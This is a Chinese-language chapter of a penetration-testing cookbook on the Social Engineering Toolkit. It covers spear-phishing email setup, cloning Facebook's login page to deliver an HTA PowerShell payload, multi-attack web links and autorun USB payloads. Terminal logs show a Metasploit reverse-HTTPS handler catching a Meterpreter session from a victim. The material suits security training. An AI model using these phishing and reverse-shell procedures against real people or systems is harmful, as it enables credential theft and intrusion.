






## 17 社会工程工具包

本章中，我们将介绍以下配方：

- 使用社会工程工具包入门
- 使用 spear-phishing 攻击向量
- 网站攻击向量
- 使用多攻击 Web 方法
- 感染性媒体生成器

### 简介

社会工程工具包（SET）是一个开源渗透测试框架，专门设计用于对人进行高级攻击，并已迅速成为渗透测试人员工具箱中的标准工具。SET 是 TrustedSec, LLC 的产品——一家位于俄亥俄州克利夫兰的信息安全咨询公司。

### 使用社会工程工具包入门

SET 可以安装在 Linux 和 macOS 上；它预装在 Kali Linux 上，Kali Linux 也维护 SET 更新，这意味着你不必担心手动更新 SET。

### 准备工作

SET 可以从其 GitHub 仓库为不同平台下载：https://github.com/trustedsec/social-engineer-toolkit。只需浏览 README 文件并为你偏好的发行版安装依赖项，然后运行以下命令安装 SET：

```
git clone https://github.com/trustedsec/social-engineer-toolkit/ set/ && cd set && python setup.py install
```

### 如何操作...

要在 Kali Linux 上启动 SET，打开终端窗口并运行 setoolkit 命令：



### 工作原理...

SET 是一个基于 Python 的自动化工具，为我们创建了一个菜单驱动的应用程序。Python 更快的执行速度和多功能性使其成为开发 SET 等模块化工具的首选语言。

在使用除 Kali Linux 之外的其他发行版使用 SET 时，你需要编辑 SET 配置文件，以确保所有攻击向量都能正常工作。例如，要在之前配方中使用的 Ubuntu 16.04.3 Droplet 中设置 SET，我们需要定义 Metasploit 的路径：

```
### Define the path to Metasploit. For example:
/opt/metasploit/apps/pro/msf3
METASPLOIT_PATH=/opt/metasploit-framework/bin
```

### 使用 spear-phishing 攻击向量

spear-phishing 攻击向量是一种电子邮件攻击场景，用于向目标/特定用户发送恶意电子邮件。为了伪造你自己的电子邮件地址，你需要一个 sendmail 服务器。将配置设置更改为 SENDMAIL=ON。如果你的基于 Debian 的机器上未安装 sendmail，则可以通过输入以下命令下载：

```
apt install sendmail
```

### 如何操作...

spear-phishing 模块为我们提供了三种不同的攻击向量：



1. 我们先来分析一下。选择第一个选项将启动 **大规模邮件攻击**。攻击向量首先通过选择有效载荷开始。你可以从可用的 Metasploit 漏洞利用模块列表中选择任何漏洞：



2. 然后，我们将被提示选择一个有效载荷并指定侦听器的 IP 地址或 URL 以及端口。

3. 在接下来的几个步骤中，我们将启动 sendmail 服务器，设置恶意文件格式的模板，并选择单次或群发邮件攻击：



4. 然后，选择要使用的模板、受害者电子邮件地址以及用于电子邮件攻击的 Gmail 账户：



设置自己的服务器可能并不非常可靠，因为大多数邮件服务使用反向查找来确保电子邮件是从与地址名称相同的域名生成的。

5. 接下来，SET 将使用资源脚本启动 Metasploit 并启动通用有效载荷处理程序：



### 网站攻击向量

SET Web 攻击向量是一种利用多种基于 Web 的攻击来入侵目标受害者的独特方法。它是 SET 中迄今为止最受欢迎的攻击向量，具有以下攻击向量：

```
set> 2

The Web Attack module is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.

The Java Applet Attack method will spoof a Java Certificate and deliver a metasploit based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.

The Metasploit Browser Exploit method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.

The Credential Harvester method will utilize web cloning of a web-site that has a username and password field and harvest all the information posted to the website.

The TabNabbing method will wait for a user to move to a different tab, then refresh the page to something different.

The Web-Jacking Attack method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if its too slow/fast.

The Multi-Attack method will add a combination of attacks through the web attack menu. For example you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.

The HTA Attack method will allow you to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser.

1) Java Applet Attack Method
2) Metasploit Browser Exploit Method
3) Credential Harvester Attack Method
4) Tabnabbing Attack Method
5) Web Jacking Attack Method
6) Multi-Attack Web Method
7) Full Screen Attack Method
8) HTA Attack Method

99) Return to Main Menu

set:webattack>
```

### 如何操作...

我们已经在之前的配方中见过如何使用 HTA，但 SET 将其提升到了新的水平。

1. 在 SET 中选择 HTA 攻击方法后，我们可以克隆一个站点，通过该站点传递我们的有效载荷，从而为用户打开 HTA 应用程序创建一个更有说服力的前提：

```
set:webattack>8

The first method will allow SET to import a list of pre-defined web applications that it can utilize within the attack.

The second method will completely clone a website of your choosing and allow you to utilize the attack vectors within the completely same web application you were attempting to clone.

The third method allows you to import your own website, note that you should only have an index.html when using the import website functionality.

1) Web Templates
2) Site Cloner
3) Custom Import

99) Return to Webattack Menu

set:webattack>2
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisasfakesite.com
set:webattack> Enter the url to clone: https://facebook.com
[*] HTA Attack Vector selected. Enter your IP, Port, and Payload...
set> IP address or URL (www.ex.com) for the payload listener (LHOST) [45.55.45.143]:
Enter the port for the reverse payload [443]:
Select the payload you want to deliver:

1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
3. Meterpreter Reverse TCP

Enter the payload number [1-3]: 1
[*] Generating powershell injection code and x86 downgrade attack...
[*] Reverse_HTTPS takes a few seconds to calculate..One moment..
No encoder or badchars specified, outputting raw payload
```


2. 与大规模邮件攻击类似，SET 将使用资源脚本启动 Metasploit，并为我们启动通用有效载荷处理程序：

```
[*] Embedding HTA attack vector and PowerShell injection...
[*] Automatically starting Apache for you...

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a little bit...
[*] Copying over files to Apache server...
[*] Launching Metasploit.. Please wait one.
This copy of metasploit-framework is more than two weeks old.
Consider running 'msfupdate' to update to the latest version.

IIIIII      dTb.dTb
II   4'  v  B   ""--""--""
II   G.   .P   ."//"\
II   'T,  .;P'  ."//"\
II   'T, .P'    ."//"\
IIIIII  'Yv'

I love shells --egypt

    =[ metasploit v4.16.24-dev ]
+ -- --=[ 1713 exploits - 972 auxiliary - 299 post ]
+ -- --=[ 503 payloads - 41 encoders - 10 nops ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/try msp ]

[*] Processing /root/.set//meta_config for ERB directives.
resource (/root/.set//meta_config)> use multi/handler
resource (/root/.set//meta_config)> set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
resource (/root/.set//meta_config)> set LHOST 45.55.45.143
LHOST => 45.55.45.143
resource (/root/.set//meta_config)> set LPORT 443
LPORT => 443
resource (/root/.set//meta_config)> set ExitOnSession false
ExitOnSession => false
resource (/root/.set//meta_config)> set EnableStageEncoding true
EnableStageEncoding => true
resource (/root/.set//meta_config)> exploit -j
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on https://45.55.45.143:443
msf exploit(multi/handler) >
```

3. 现在，当受害者浏览我们的恶意站点时，他们将被提示打开 HTA 应用程序；由于它来自一个已知网站，即我们克隆的网站，因此受害者更有可能运行它：


4. 当受害者打开 HTA 应用程序时，我们获得了一个新的会话：

```
[*] Started HTTPS reverse handler on https://45.55.45.143:443
msf exploit(multi/handler) > [*] https://45.55.45.143:443 handling request from 89.114.197.227; (UUID: snz1Su6v) Encoded stage with x86/shikata_ga_nai
[*] https://45.55.45.143:443 handling request from 89.114.197.227; (UUID: snz1Su6v) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (45.55.45.143:443 -> 89.114.197.227:55296) at 2017-12-30 14:30:40 +0000

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter >
```

## 使用多攻击 Web 方法

多攻击 Web 方法通过将多个攻击组合成一个，使 Web 攻击更上一层楼。这种攻击方法允许我们在单一格式下统一多个漏洞利用和漏洞。一旦目标用户打开文件或 URL，则每个攻击将逐一尝试，除非报告了成功的攻击。SET 自动化了将不同攻击归类到单一 Web 攻击场景下的过程。让我们继续前进，看看这是如何完成的：

```
Multi-Attack Web Attack Vector
[**************************************************]
The multi attack vector utilizes each combination of attacks and allow the user to choose the method for the attack. Once you select one of the attacks, it will be added to your attack profile to be used to stage the attack vector. When your finished be sure to select the 'I'm finished' option.
Select which attacks you want to use:
1. Java Applet Attack Method (OFF)
2. Metasploit Browser Exploit Method (OFF)
3. Credential Harvester Attack Method (OFF)
4. Tabnabbing Attack Method (OFF)
5. Web Jacking Attack Method (OFF)
6. Use them all - A.K.A. 'Tactical Nuke'
7. I'm finished and want to proceed with the attack
99. Return to Main Menu
set;webattack;multiattack> Enter selections one at a time (7 to finish):6
```

我们可以选择不同的攻击，完成后可以输入 7，最终将所选攻击组合到单一向量下。最后，我们将被提示选择有效载荷和后门编码器。

### 如何操作...

一旦选择了不同的攻击，SET 将它们与有效载荷结合，并构建一个单一的恶意链接，该链接现在需要进行社会工程。我们必须构建一个看起来对目标用户完全合法的模板，并迫使其访问恶意链接。一旦受害者点击链接，不同的攻击将逐一尝试，除非成功发起攻击。一旦发现并利用漏洞，有效载荷将提供与 Metasploit 监听器的回连。

## 感染性媒体生成器

感染性媒体生成器是一个相对简单的攻击向量。SET 将创建基于 Metasploit 的有效载荷，为您设置监听器，并生成一个需要刻录或写入 DVD/USB 驱动器的文件夹。一旦插入，如果启用了自动运行，代码将自动执行并接管机器：

```
The Infectious USB/CD/DVD module will create an autorun.inf file and a
Metasploit payload. When the DVD/USB/CD is inserted, it will automatically
run if autorun is enabled.

Pick the attack vector you wish to use: fileformat bugs or a straight executable.

1) File-Format Exploits
2) Standard Metasploit Executable

99) Return to Main Menu

set:infectious>
```

### 如何操作...

该攻击向量基于一个简单的原理，即生成恶意可执行文件，然后使用可用编码器对其进行编码，以绕过防病毒保护。以下是一些感染性媒体生成器的示例及其描述：

```
set::infectious>2

1) Windows Shell Reverse_TCP          Spawn a command shell on victim and send back to attacker
2) Windows Reverse_TCP Meterpreter    Spawn a meterpreter shell on victim and send back to attacker
3) Windows Reverse_TCP VNC DLL        Spawn a VNC server on victim and send back to attacker
4) Windows Shell Reverse_TCP X64      Windows X64 Command Shell, Reverse TCP Inline
5) Windows Meterpreter Reverse_TCP X64 Connect back to the attacker (Windows x64), Meterpreter
6) Windows Meterpreter Egress Buster  Spawn a meterpreter shell and find a port home via multiple ports
7) Windows Meterpreter Reverse HTTPS  Tunnel communication over HTTP using SSL and use Meterpreter
8) Windows Meterpreter Reverse DNS    Use a hostname instead of an IP address and use Reverse Meterpreter
9) Download/Run your Own Executable   Downloads an executable and runs it

set::payloads>7
set::payloads> IP address for the payload listener (LHOST):45.55.45.143
set::payloads> Enter the PORT for the reverse listener:443
[*] Generating the payload.. please be patient.
[*] Payload has been exported to the default SET directory located under: /root/.set//payload.exe
[*] Your attack has been created in the SET home directory (/root/.set/) folder 'autorun'
[*] Note a backup copy of template.pdf is also in /root/.set/template.pdf if needed.
[-] Copy the contents of the folder to a CD/DVD/USB to autorun
set> Create a listener right now [yes|no]: yes
```

### 工作原理...

在生成编码后的恶意文件后，Metasploit 监听器开始等待回连。此攻击的唯一限制是可移动媒体必须启用自动运行；否则需要手动触发。

这种类型的攻击向量在目标用户位于防火墙后面时可能有所帮助。如今大多数防病毒程序都会禁用自动运行，这反过来会使这种类型的攻击变得无用。渗透测试人员在进行基于自动运行的攻击时，还应确保提供后门、合法的可执行文件/PDF 以及媒体。这将确保受害者必然执行其中一个有效载荷。
